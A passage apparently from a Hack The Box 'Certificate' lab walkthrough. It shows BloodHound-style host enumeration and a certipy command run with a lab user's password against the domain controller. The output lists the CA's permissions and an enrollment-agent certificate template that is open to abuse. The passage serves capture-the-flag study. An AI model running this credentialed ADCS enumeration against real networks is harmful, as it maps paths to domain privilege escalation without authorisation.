     INFO: Querying computer: WS-05.certificate.htb
    INFO: Querying computer: WS-01.certificate.htb
    INFO: Querying computer: DC01.certificate.htb
    INFO: Ignoring host WS-05.certificate.htb since its hostname does not match: Supplied hostname ws-05.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Ignoring host WS-01.certificate.htb since its hostname does not match: Supplied hostname ws-01.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Done in 00M 21S



```python
!certipy find -u lion.sk -p Password1234! -target dc01.certificate.htb -dc-ip 10.129.212.157 -vulnerable -enabled -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 35 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'Certificate-LTD-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'Certificate-LTD-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'Certificate-LTD-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Got CA configuration for 'Certificate-LTD-CA'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : Certificate-LTD-CA
        DNS Name                            : DC01.certificate.htb
        Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
        Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
        Certificate Validity Start          : 2024-11-03 22:55:09+00:00
        Certificate Validity End            : 2034-11-03 23:05:09+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : CERTIFICATE.HTB\Administrators
          Access Rights
            ManageCertificates              : CERTIFICATE.HTB\Administrators
                                              CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
            ManageCa                        : CERTIFICATE.HTB\Administrators
                                              CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
            Enroll                          : CERTIFICATE.HTB\Authenticated Users
    Certificate Templates
      0
        Template Name                       : Delegated-CRA
        Display Name                        : Delegated-CRA
        Certificate Authorities             : Certificate-LTD-CA
        Enabled                             : True
        Client Authentication               : False
        Enrollment Agent                    : True
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDirectoryPath
                                              SubjectRequireEmail
                                              SubjectAltRequireEmail
                                              SubjectAltRequireUpn